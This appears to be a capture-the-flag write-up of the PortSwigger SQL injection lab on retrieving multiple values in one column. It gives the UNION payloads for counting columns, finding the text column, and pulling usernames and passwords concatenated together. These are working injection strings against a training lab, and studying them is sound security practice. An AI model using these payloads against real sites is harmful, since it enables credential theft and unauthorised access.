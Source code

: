 ```yaml
---
title: PortSwigger - SQLi 6 - UNION attack, retrieving multiple values in a single column
date: 2023-03-06
categories: [PortSwigger, Challenges]
tags: [portswigger, web, sqli]
---
```


Difficulty : `Practitioner`

## 🎯 Goal

The database contains a new table called `users`, with columns called `username` and `password`.

To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the `administrator` user.

## ✅ Solution

First we need to know how many columns are returned by the query:

````text
<website>/filter?category=Pets' UNION SELECT NULL--    # error!
<website>/filter?category=Pets' UNION SELECT NULL,NULL--    # works
<website>/filter?category=Pets' UNION SELECT NULL,NULL,NULL--    # error!
````

We now know there are 2 columns. Time to test where is the string data:

````text
<website>/filter?category=Pets' UNION SELECT 'abc',NULL--   # error!
<website>/filter?category=Pets' UNION SELECT NULL,'abc'--   # works
````

Ok the second column is a string one. To extract both users and passwords columns we will have to concatenate them into just one columns using the special operator `<string> || <string>` (can vary according to the DBMS).

Let’s try on the full request now:

````text
<website>/filter?category=Gifts' UNION SELECT NULL,username || '~' || password FROM users-- # administrator~password
````
